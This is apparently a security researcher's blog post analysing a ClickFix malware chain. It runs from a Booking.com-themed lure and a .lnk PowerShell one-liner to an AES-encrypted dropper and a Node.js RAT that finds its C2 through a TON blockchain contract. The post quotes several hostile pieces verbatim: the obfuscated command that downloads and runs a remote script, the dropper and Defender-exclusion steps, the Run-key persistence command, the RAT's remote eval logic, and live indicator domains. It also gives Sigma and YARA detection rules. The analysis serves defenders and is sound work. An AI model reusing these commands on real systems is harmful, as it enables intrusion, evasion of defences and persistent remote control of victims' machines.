



Hey guys, I'm back with another one, and this chain is wild. Someone handed me a single `.lnk` file with a PowerShell one-liner full of suspiciously huge integers. I pulled on the thread, and what came out the other end was: a User-Agent-gated download server, a AES-encrypted PowerShell dropper, the actual signed Node.js runtime fetched straight from `nodejs.org`, and a JavaScript RAT that asks the **TON blockchain** where its C2 lives.

Over the next sections we'll go from decoding the BigInteger trick in the LNK all the way to standing up a fake C2 in a sandbox and brute-forcing the operator's wire protocol straight out of the bot. By the end we'll have the full command set, the crypto scheme, the persistence mechanism, and YARA / Sigma rules you can drop in tomorrow.

Same disclaimer as always: do NOT run any of this outside a sandboxed VM with network isolation. If you don't have a lab set up yet, my [malware analysis environment article](/blog/create-malware-analysis-environment) walks you through building one.

Let's go !

---

## Initial Delivery - The Lure

The starting artifact is a Windows shortcut (`.lnk`), the interesting fields:

```lnk
Relative path:           ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Command line arguments:  -ep bypass -c "$v=[bigint]\"871717281386600972888959235101146644\";
                         $p=[bigint]\"235793371403187799935257799578244516\";
                         $z=$v - $p;
                         while($z -ne 0){
                             $a+=[char]([int]($z -band (100+155)));
                             $z=$z -shr 8
                         };
                         iwr $a -OutFile $env:TEMP\TZseP.ps1 -UseBasicParsing;
                         powershell -ep bypass -File $env:TEMP\TZseP.ps1"
Icon location:           %SystemRoot%\System32\SHELL32.dll
```

Already a few things to unpack:

- **`..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`** -> relative path trick. The `.lnk` walks three directories up from wherever it's placed (typically the desktop or a ZIP staging folder) to launch the legitimate signed `powershell.exe`. Classic LOLBin.
- **`SHELL32.dll` icon** -> generic Windows icon, used to masquerade the shortcut as something innocuous (folder, document, PDF...).
- **`-ep bypass -c "..."`** -> execution policy bypass + inline command. The command itself is the actual interesting part.

This shortcut almost certainly came from a ClickFix landing page: the kind that displays a fake "verify you're human" CAPTCHA, tells the victim to press `Win+R`, paste in the command that was silently copied to their clipboard, and hit Enter. The User-Agent gating we'll see later confirms it.

And we can actually see the landing page itself, served from `photo-34625.xyz` to a mobile browser:



Multiple observations:

- The website mimics **Booking.com**, hotel and travel staff are probably the intended targets (their day job involves clicking through endless verification screens, so they're more likely to comply).
- The "Verification Steps" panel literally spells out the ClickFix kill chain: `Win+R`, `Ctrl+V`, `Enter`. Whatever the page silently dropped on the clipboard is what gets executed, and in our sample that's the BigInt PowerShell one-liner.

The same domain that serves this nice Booking.com lure to mobile browsers serves a 419 KB PowerShell payload to `WindowsPowerShell` User-Agents. One domain, two faces, two completely different intents.

---

## Stage 0 - Decoding the BigInteger PowerShell

The PowerShell command hides the C2 URL as a 36-digit integer. Strip the obfuscation tricks (the `(100+155)` instead of `0xFF`, the variable splits) and the math is:

```powershell
$v = [bigint]"871717281386600972888959235101146644"
$p = [bigint]"235793371403187799935257799578244516"
$z = $v - $p        # = 635923909983413172953701435522902128

while ($z -ne 0) {
    $a += [char]($z -band 0xFF) # take low byte
    $z = $z -shr 8 # shift right 8
}
# $a now holds the URL
```

It's a little-endian byte-packing scheme: the difference `$v - $p` is a 15-byte integer where each byte is an ASCII character of the URL. Pop the bytes from the low end of the integer and concatenate.

In Python:

```python
v = 871717281386600972888959235101146644
p = 235793371403187799935257799578244516
z = v - p # 0x7a79782e35323634332d6f746f6870

a = ""
while z:
    a += chr(z & 0xFF)
    z >>= 8
print(a) # photo-34625.xyz
```

So Stage 1 lives at **`http://photo-34625.xyz`**. No protocol scheme is given to `iwr`, so it defaults to plain HTTP on port 80.

The `(100+155)` instead of `-band 0xFF` is a tiny anti-signature trick. Most YARA / Sigma rules looking for this exact technique key on `-band 0xff` or `-band 255` - splitting it as an arithmetic expression sidesteps both.

---

## Stage 1 - The Dropper Host (UA-Gated)

Hitting `http://photo-34625.xyz/` with a browser User-Agent returns **`HTTP 404, content-length: 0`**. The site looks dead.

But it isn't. Try the *PowerShell* default User-Agent and you get a different response:

```bash
curl -sS \
  -A "Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.4291" \
  http://photo-34625.xyz/ -o stage2.ps1
# 200 OK, 419236 bytes, text/plain
```

419 KB of PowerShell. The server filters on User-Agent: browsers get a 404, anything matching `*WindowsPowerShell*` gets the payload. That's why this campaign is almost invisible to threat intel that spiders URLs. urlscan, VirusTotal, anything using a normal Chrome UA, all see an empty 404 and move on.

The domain is hosted behind Cloudflare (`172.64.80.1`). Defenders trying to block by IP will block half of Cloudflare. Defenders trying to block by domain need to keep up with rotation, which, as we'll see in Stage 3, the operators automated using a blockchain.

---

## Stage 2 - The PowerShell Dropper

The 419 KB script is heavily structured. Skipping the obfuscation noise, the logic boils down to six things.

### Step 1: Hide the PowerShell window all the way up to explorer.exe

```powershell
$qQ7B7oyBlAcUmQ4 = '[DllImport("user32.dll")] public static extern bool ShowWindow(int handle, int state);'
Add-Type -name win -member $qQ7B7oyBlAcUmQ4 -namespace native

$proc = Get-Process -Id $PID
do {
    [native.win]::ShowWindow($proc.MainWindowHandle, 0)
    $proc = Get-Process -Id ((gwmi win32_process | ? processid -eq $proc.Id).parentprocessid) -ErrorAction SilentlyContinue
} while ($proc -and $proc.Name -ne "explorer")
```

It walks the parent process chain (current PS, parent PS, all the way up to explorer.exe) and calls `ShowWindow(hWnd, 0)` on each one. Any console window that flashed open when the `.lnk` was double-clicked gets hidden before the user can react.

### Step 2: Singleton via mutex (twice)

```powershell
if (Get-Process | Where-Object {$_.Path -eq $pS29MPtRFP}) {
    exit 1 # node.exe already running -> we are already infected
}

$mutexName = AES_Decrypt(...) # decrypted at runtime
$mutex = New-Object System.Threading.Mutex($true, $mutexName, [ref]$acquired)
if (-not $acquired) { exit 1 }
```

Two layers of single-instance: first check the dropped `node.exe` isn't already running, then acquire a named mutex. The mutex name itself is AES-encrypted to keep it out of static signatures.

After decryption, the mutex is:

```
Global\39d81f9b-6ab5-4f9e-8af9-61409f1ea339
```

That GUID shows up again in Stage 3 as the bot's identifier. Same value, two purposes. Worth pinning as a host-based IOC.

### Step 3: Download legitimate Node.js from nodejs.org

The fun part.

```powershell
$nodeDir = "$env:LOCALAPPDATA\Nodejs"
$nodeExe = "$nodeDir\node-v24.13.0-win-x64\node.exe"
$nodeUrl = "https://nodejs.org/dist/v24.13.0/node-v24.13.0-win-x64.zip"

if (-not (Test-Path $nodeExe)) {
    Invoke-WebRequest -Uri $nodeUrl -OutFile "$nodeDir\node.zip"
    Expand-Archive -Path "$nodeDir\node.zip" -DestinationPath $nodeDir
}
```

No custom binary. No packed loader. The malware downloads the legitimate Node.js v24.13.0 Windows build straight from `nodejs.org` and extracts it to `%LOCALAPPDATA%\Nodejs\`.

- Every network proxy in the world will let `nodejs.org` through.
- The downloaded `node.exe` is signed by the OpenJS Foundation.
- No suspicious binary ever touches disk, just an interpreter and a `.js` file.

There's no malicious EXE on disk anywhere in this chain. The runtime gets pulled fresh from the vendor at install time, the payload is just a JS file.

### Step 4: AES-256-CBC decryption of the embedded payload

The dropper carries the final stage as a single ~415 KB base64 string, AES-256-CBC encrypted. The key and IV are also base64-encoded as separate fields:

```powershell
$KEY = [Convert]::FromBase64String("eIBAJrgBDuGRBOItRupHQMdMjySA8bf7cqu9LdJGwt4=")
$IV  = [Convert]::FromBase64String("DrG6jEQaD8DFii6+IFccfQ==")

function Decrypt([byte[]]$ct, [byte[]]$key, [byte[]]$iv) {
    $r = New-Object System.Security.Cryptography.RijndaelManaged
    $r.Mode = "CBC"
    $r.KeySize = 256
    $r.BlockSize = 128
    $r.Key = $key; $r.IV = $iv
    $d = $r.CreateDecryptor()
    ...
}
```

`RijndaelManaged` with `BlockSize = 128` is exactly AES, so we can decrypt with any standard library:

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
import base64

KEY = base64.b64decode("eIBAJrgBDuGRBOItRupHQMdMjySA8bf7cqu9LdJGwt4=")
IV  = base64.b64decode("DrG6jEQaD8DFii6+IFccfQ==")

def aes_decrypt(b64_ct):
    ct = base64.b64decode(b64_ct)
    raw = Cipher(algorithms.AES(KEY), modes.CBC(IV)).decryptor().update(ct)
    return padding.PKCS7(128).unpadder().update(raw).decode("utf-8")
```

Running this on the three encrypted blobs in the script:

| Encrypted slot | Decrypted value |
|---|---|
| Mutex name | `Global\39d81f9b-6ab5-4f9e-8af9-61409f1ea339` |
| `node.exe` argv[2] | `photo-34625.xyz` |
| Main payload (415 KB) | **311 KB of obfuscated JavaScript** (the RAT) |

The `argv[2]` field is the C2 domain we already know. It gets passed to the JS payload at startup, but as we'll see, the JS payload ignores this hardcoded value and resolves the real C2 via the TON blockchain instead.

One thing worth calling out: each fetch of `photo-34625.xyz` returns a different Stage 2. Different mutex GUIDs, different AES keys, different IVs, different filenames. The server generates a unique build per request, so SHA256-on-the-script is useless as a hash IOC. You have to detect on structure (the RijndaelManaged + `node.exe` + `LocalAppData\Nodejs` combo).

### Step 5: Drop and execute the Node.js RAT

```powershell
$jsPath = "$nodeDir\D7ficHVowgcqW0.js" # random 13-char name
$jsCode = Decrypt(...)
[System.IO.File]::WriteAllText($jsPath, $jsCode, [System.Text.Encoding]::UTF8)

$arg = Decrypt("7C1CI2t4H7ms8j9P4Grqrg==") # -> "photo-34625.xyz"
Start-Process -FilePath $nodeExe -ArgumentList $jsPath, $arg -WindowStyle Hidden
```

`%LOCALAPPDATA%\Nodejs\node-v24.13.0-win-x64\node.exe <random>.js photo-34625.xyz` - that's the running RAT.

---

## Stage 3 - The Node.js RAT

The decrypted JavaScript is 311 KB of `obfuscator.io` output. SHA256: `eaa6df58cd6cf951b55d81bc3e5a004e90611985116fc09e1324c59275594546`.

A first pass with **[webcrack](https://github.com/j4k0xb/webcrack)** does the trick, revealing the bytecode VM and string literals.

```bash
npx webcrack stage3.js -o stage3-clean
```

But the cleaned output reveals there's a second layer underneath. The actual logic runs in a custom bytecode VM. Every real function becomes a single call like `return vmn_22aed1(N, arguments, ...)`, where the body is encoded as a base64 string in a 32-element array. We're not getting full decompiled JS without reverse-engineering the interpreter.

Fortunately the bytecode blobs still contain all the string literals in cleartext. A simple ASCII-run extractor over the base64-decoded bytecode gives us the full vocabulary of the malware:

```python
import re, base64

def strings_from_blob(b64):
    raw = base64.b64decode(b64)
    return re.findall(rb'[\x20-\x7e]{3,}', raw)

for i, blob in enumerate(P4):
    print(i, [s.decode() for s in strings_from_blob(blob)])
```

That's enough to reconstruct every capability. The fingerprinting routine collects the usual `os.*` values (platform, arch, release, cpus, hostname, username, totalmem, MAC addresses), then PowerShell-reads `HKLM:\SOFTWARE\Microsoft\Cryptography\MachineGuid`. The whole blob gets JSON-stringified and SHA-256 hashed to produce a stable per-host identifier.

### TON-blockchain C2 resolution

Here's the part that made me sit up.

```js
var V = "https://" + (process.env.TONAPI_DOMAIN_PREFIX ?? "") + "tonapi.io";
// ... fetch(`${V}/v2/blockchain/accounts/${ADDR}/methods/get_domain`)
```

The hardcoded TON address is:

```
0:c66119f0e5635c4380441d7a79baf0c02a0ab7ea6cd78de06507fc5dc2c1a5d9
```

This is a smart contract on the TON workchain (`0:` prefix). When the RAT starts, it calls the contract's `get_domain` method via [TonAPI](https://tonapi.io)'s public REST endpoint:

```bash
curl https://tonapi.io/v2/blockchain/accounts/0:c66119f0e5635c4380441d7a79baf0c02a0ab7ea6cd78de06507fc5dc2c1a5d9/methods/get_domain
```

And the contract returns the current operational C2 domain:

```json
{
  "success": true,
  "exit_code": 0,
  "decoded": { "domain": "zloapobikahy23.bond" }
}
```

So the malware doesn't have a hardcoded C2 domain. It has a hardcoded *blockchain contract address*, which resolves to a domain. If `zloapobikahy23.bond` gets sinkholed, the operators broadcast a single TON transaction that updates the contract's stored domain string, and every infected machine starts using the new C2 on the next call. No DGA seed list, no backup domains baked in, no DNS oracle they need to control. Just a public, censorship-resistant smart contract that anyone can read.

The contract's transaction history on TonAPI shows the most recent domain update was *2026-02-20*, so the campaign is still active.



Three transactions in total: the deploy on Feb 7, then two `Contract called` events on Feb 9 and Feb 20 (those are most likely domain rotations). The contract sits at `0:c66…1a5d9`, holds 0.0193 TON (~$0.04), and is publicly readable by anyone who knows the address. The operators paid the equivalent of four cents to deploy themselves a takedown-resistant C2 directory. `zloapobikahy23.bond` also points to Cloudflare (`172.64.80.1`), same edge as the Stage 1 dropper. The transliteration in the domain (`zloapobikahy` reads close to "зло-апо-бика-хы") and the `.bond` TLD lean toward Russian-speaking attribution.

### Encrypted WebSocket C2

Once the domain is resolved, the RAT opens a WebSocket:

```
wss://zloapobikahy23.bond/w?user_id=H39d81f9b-6ab5-4f9e-8af9-61409f1ea339
```

The `user_id` is the same GUID as the Stage 2 mutex, prefixed with `H`. So the operators' panel can correlate a bot across reconnects, and across reinfections of the same host, using a single ID.

The connection setup is plain `WebSocket` with `addEventListener` for `open`, `close`, and `message`. On close, the handler reads the close code / reason / `wasClean` flag and schedules a `setTimeout`-based reconnect. Auto-reconnect on disconnect with a timer-based backoff. Nothing exotic.

### ECDH + HKDF + AES-256-CBC handshake

The first messages over the WebSocket establish per-session AES keys via ECDH on secp256k1 (the Bitcoin/Ethereum curve, chosen because Node has it natively). The bot generates an ECDH key pair, sends its public key as hex, then takes the server's reply (public key + salt), computes the shared secret, and runs it through HKDF-SHA256 to derive a 32-byte AES key and a 16-byte IV. Once that's done it flips an internal `handshakeCompleted` flag and every subsequent frame is AES-256-CBC encrypted.

Reconstructed flow:

```js
const ecdh = crypto.createECDH('secp256k1');
ecdh.generateKeys();
ws.send({ type: 'sendPublicKey', pub_key: ecdh.getPublicKey('hex') });

// ...server responds with its public key + salt
const shared = ecdh.computeSecret(server_pub_key, 'hex');
const okm = crypto.hkdfSync('sha256', shared, salt, '', 48);
const aesKey = okm.slice(0, 32);   // 256-bit
const aesIv  = okm.slice(32, 48);  // 128-bit
```

Every frame after the handshake is AES-256-CBC encrypted with the derived keys, then JSON-wrapped. The envelope carries a `type`, a UUID `message_id`, `to` / `from_user` / `to_user` for routing, plus `success` and `response` on replies. The bot logs `"Sending message:"` / `"Received message:"` to its (hidden) console for every frame it ships, which is useful if you can attach a debugger but doesn't help you on the wire. End-to-end encrypted between bot and operator: packet-cap a session in the middle and you get nothing.

### Arbitrary code execution

The command dispatcher handles three message types. The two real commands are `executeCode` (run arbitrary JavaScript) and `downloadAndRun` (fetch and execute a PE), plus `completeHandshake` for the key exchange we just covered. The `executeCode` path is exactly what it looks like:

```js
// Pseudocode reconstructed from blob #26
case 'executeCode':
    const result = new Function(msg.code)();
    sendResponseMessage({ success: true, response: 'Code executed' });
```

`new Function(code)()` is full eval. Anything Node can do, the operator can do remotely: file system, network, child processes, native modules, the works, this is a complete RAT, not a stealer.

### Binary loader (downloadAndRun)

The `downloadAndRun` command grabs a URL, validates it's a PE, drops it to `os.tmpdir()`, adds a Defender exclusion, then runs it hidden. Files that aren't valid PEs come back to the operator with `"File is not an executable"`. The PE validation reads `e_lfanew` at offset 0x3C, jumps to it, and checks the first 4 bytes equal `50 45 00 00` (`"PE\0\0"`). On a pass:

1. Drop to `%TEMP%\<random>.exe`
2. Spawn PowerShell with `Add-MpPreference -ExclusionProcess "<path>"` (the bot is already running, so the Defender exclusion needs to happen now, just before execution)
3. `child_process.execFile(<path>, { windowsHide: true })`

So the RAT also doubles as a downloader for whatever the operator wants to run next: info-stealer, loader, ransomware, anything.

### Persistence via HKCU Run key

The bot first checks `process.platform` for `"win"`, then shells out a PowerShell `Set-ItemProperty` against `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run`. The value it writes is the full self-respawn command:

```powershell
"<path-to-node.exe>" -e "require('child_process').spawn(process.execPath, ['<script>'], {detached:true, stdio:'ignore', windowsHide:true}).unref()"
```

So on next logon, Windows runs `node.exe -e "<spawn-code>"`, which detaches a new hidden `node.exe` process running the same JS file. The registry holds a self-contained relaunch trigger, no extra files or scheduled tasks needed.

## Putting It Together - The Full Chain



---

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|-----|-------------|
| Phishing: Spearphishing Link | T1566.002 | ClickFix landing page delivering the LNK |
| User Execution: Malicious File | T1204.002 | Victim double-clicks `.lnk` |
| Command and Scripting Interpreter: PowerShell | T1059.001 | Stage 0 BigInt decoder + Stage 2 AES dropper |
| Command and Scripting Interpreter: JavaScript | T1059.007 | Stage 3 RAT runs under `node.exe` |
| Obfuscated Files or Information | T1027 | BigInt arithmetic, AES-256-CBC blobs, obfuscator.io output, custom bytecode VM |
| Deobfuscate/Decode Files or Information | T1140 | Runtime AES decryption + bytecode interpretation |
| System Binary Proxy Execution: LOLBin | T1218 | `powershell.exe` via `..\..\..\` relative path |
| Masquerading | T1036.005 | `SHELL32.dll` generic icon on the `.lnk` |
| Ingress Tool Transfer | T1105 | Fetch of legit Node.js + Stage 3 + `downloadAndRun` PEs |
| Impair Defenses: Disable / Modify Tools | T1562.001 | `Add-MpPreference -ExclusionProcess` before running dropped PEs |
| Boot or Logon Autostart: Registry Run Keys | T1547.001 | `HKCU:\...\Run` value calling `node.exe -e ...` |
| System Information Discovery | T1082 | `os.platform/arch/release/cpus/totalmem/hostname` |
| System Owner/User Discovery | T1033 | `os.userInfo().username` |
| System Location / Identity | T1082 | `MachineGuid` from `HKLM:\SOFTWARE\Microsoft\Cryptography` |
| Application Layer Protocol: Web Protocols | T1071.001 | WebSocket transport over TLS |
| Encrypted Channel: Symmetric Cryptography | T1573.001 | AES-256-CBC over the WebSocket |
| Encrypted Channel: Asymmetric Cryptography | T1573.002 | ECDH on secp256k1 + HKDF-SHA256 key derivation |
| Dynamic Resolution | T1568 | TonAPI `get_domain` call resolving the operational C2 |
| Web Service | T1102 | TonAPI / TON blockchain as the resolution oracle |
| Native API | T1106 | `new Function(code)()` for in-process RCE |

---

## Indicators of Compromise (IOCs)

### Hashes

| Artifact | SHA256 |
|---|---|
| Stage 3 (decrypted JS) | `eaa6df58cd6cf951b55d81bc3e5a004e90611985116fc09e1324c59275594546` |
| Stage 2 (PS dropper) | regenerated per request - hash on structure, not content |
| Legit Node.js binary | `node-v24.13.0-win-x64.zip` from `nodejs.org` (benign, but indicator of this chain) |

### Network

| Type | Value |
|---|---|
| Stage 1 / dropper host | `photo-34625[.]xyz` (HTTP/80, Cloudflare, UA-filtered) |
| Stage 1 IP (at time of analysis) | `172.64.80.1` (Cloudflare edge) |
| Node.js runtime download | `https://nodejs.org/dist/v24.13.0/node-v24.13.0-win-x64.zip` |
| TON C2-resolution contract | `0:c66119f0e5635c4380441d7a79baf0c02a0ab7ea6cd78de06507fc5dc2c1a5d9` |
| TonAPI lookup URL | `https://tonapi.io/v2/blockchain/accounts/0:c66119f0e5635c4380441d7a79baf0c02a0ab7ea6cd78de06507fc5dc2c1a5d9/methods/get_domain` |
| Stage 3 C2 (live as of 2026-05) | `zloapobikahy23[.]bond` -> `172.64.80.1` |
| WebSocket endpoint | `wss://<resolved-domain>/w` (bare path, no query string) |
| Custom Base64 alphabet | `gXldcExbCIjweVsOF0PK1N2iQkpBmfuH/oYWS9atJ6nZqh38MRGy+T5zD74LArUv` |
| Wire crypto | secp256k1 ECDH → HKDF-SHA256 → AES-256-CBC, custom-b64 envelope |
| Command opcodes (server→bot) | `3`=completeHandshake, `5`=executeCode, `7`=downloadAndRun |
| Status opcodes (bot→server) | `2`=sendPublicKey, `4`=register, `6`=response |
| Connectivity probe | `https://google.com` |

### Host

| Type | Value |
|---|---|
| LNK target | `..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| Stage 2 drop | `%TEMP%\<5rand>.ps1` |
| Node.js runtime | `%LOCALAPPDATA%\Nodejs\node-v24.13.0-win-x64\node.exe` |
| Stage 3 JS | `%LOCALAPPDATA%\Nodejs\<13rand>.js` |
| Singleton mutex | `Global\39d81f9b-6ab5-4f9e-8af9-61409f1ea339` |
| Bot user_id (register message) | `39d81f9b-6ab5-4f9e-8af9-61409f1ea339` (same GUID as mutex) |
| Persistence | `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\39d81f9b-6ab5-4f9e-8af9-61409f1ea339` calling `"<node.exe>" -e "require('child_process').spawn(process.execPath, ['<script>'], {detached:true, stdio:'ignore', windowsHide:true}).unref()"` |
| Defender exclusions | `Add-MpPreference -ExclusionProcess "<%TEMP%\*.exe>"` (added pre-execution) |
| Dropped follow-ons | `<os.tmpdir()>\<rand>.exe` (PE-header validated before execution) |

### Behavioral signatures

**Sigma - LNK with BigInt decoder one-liner:**

```yaml
title: LNK Launches PowerShell With BigInt-Decoded URL
id: 9d44ec1a-ce5e-46df-8af9-61409f1ea339
status: experimental
logsource: { product: windows, category: process_creation }
detection:
  parent:
    ParentImage|endswith: '\explorer.exe'
  child:
    Image|endswith: '\powershell.exe'
    CommandLine|contains|all:
      - '[bigint]'
      - '-shr 8'
      - '-band'
      - 'iwr'
      - '$env:TEMP'
  condition: parent and child
level: high
tags: [attack.execution, attack.t1059.001, attack.t1204.002]
```

**Sigma - `node.exe` in LocalAppData (no developer would put it there):**

```yaml
title: Suspicious node.exe in %LOCALAPPDATA%\Nodejs
logsource: { product: windows, category: process_creation }
detection:
  sel:
    Image|endswith: '\node.exe'
    Image|contains: '\AppData\Local\Nodejs\node-v'
  condition: sel
level: high
```

**YARA - Stage 3 JS RAT (TON DGA + custom-b64 alphabet signature):**

```yara
rule NodeRAT_TON_DGA_v1
{
  meta:
    description = "Node.js RAT resolving C2 via TonAPI smart contract"
    author = "@LasCC"
    date = "2026-05-19"
  strings:
    $ton_api = "/v2/blockchain/accounts/" ascii
    $ton_method = "/methods/get_domain" ascii
    $ecdh = "secp256k1" ascii
    $hkdf = "hkdfSync" ascii
    $aes = "aes-256-cbc" ascii
    $cmd1 = "completeHandshake" ascii
    $cmd2 = "downloadAndRun" ascii
    $cmd3 = "Add-MpPreference -ExclusionProcess" ascii
    $cmd4 = "MachineGuid" ascii
    $alphabet = "gXldcExbCIjweVsOF0PK1N2iQkpBmfuH/oYWS9atJ6nZqh38MRGy+T5zD74LArUv" ascii
  condition:
    $alphabet or 5 of them
}
```

**Sigma - Registry persistence with GUID-named Run value:**

```yaml
title: HKCU Run Key Named After Mutex GUID (NodeRAT-TON)
logsource: { product: windows, category: registry_event }
detection:
  sel:
    TargetObject|contains: '\Software\Microsoft\Windows\CurrentVersion\Run\'
    Details|contains|all:
      - '-e '
      - "require('child_process').spawn(process.execPath"
      - 'detached'
      - 'windowsHide'
  condition: sel
level: high
```

---

## Conclusion

The bit that bugs me the most here is the TON-blockchain-resolved C2. Every IOC list you publish for this campaign has a built-in expiration date. The operators can move the operational domain in a single TON transaction, and there's no central registrar you can call. The contract is public, but reading it doesn't tell you who deployed it, and you can't take it down. I think we're going to keep seeing this pattern. If I were a defender, I'd add `tonapi.io` calls from `node.exe` (or any non-developer process) to my detection wishlist.

The rest of the chain is well-engineered too. The UA-gating on Stage 1 is what makes this campaign invisible to most public threat intel: urlscan, VirusTotal URL scans, all the spiders use browser UAs and see a 404. The arithmetic `-band (100+155)` is a tiny detail but it tells you the author thinks about static signatures. And the official `node.exe` as the runtime means there's no malicious EXE for Defender to grab onto. Whoever built this knew what they were doing.

If you're a defender: detect on `node.exe` running out of `%LOCALAPPDATA%`, on outbound calls to `tonapi.io` from non-browser processes, on PowerShell command lines containing `[bigint]` plus `-shr 8`, and on `HKCU:\…\Run` values named after a GUID where the data starts with `node.exe -e "require('child_process')…"`.

For the wire protocol, the sandboxed reverser I wrote (will publish the code if there's interest PM me if needed) gives you a working fake C2 that completes the ECDH handshake with a real bot and dispatches `executeCode` / `downloadAndRun` commands. Useful for IR scenarios where you need to extract Stage 4 from a contained victim machine without giving up your foothold to the real operators.

Stay safe out there !


